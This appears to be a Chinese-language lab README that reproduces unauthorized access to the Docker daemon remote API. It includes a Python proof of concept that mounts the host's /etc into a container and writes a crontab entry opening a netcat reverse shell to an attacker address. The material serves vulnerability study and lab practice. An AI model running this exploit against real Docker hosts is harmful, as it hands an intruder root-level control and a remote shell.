 # docker daemon api 未授权访问漏洞

参考链接：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## 漏洞环境

编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

利用方法是，我们随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

写入crontab文件，成功反弹shell：

![](1.png)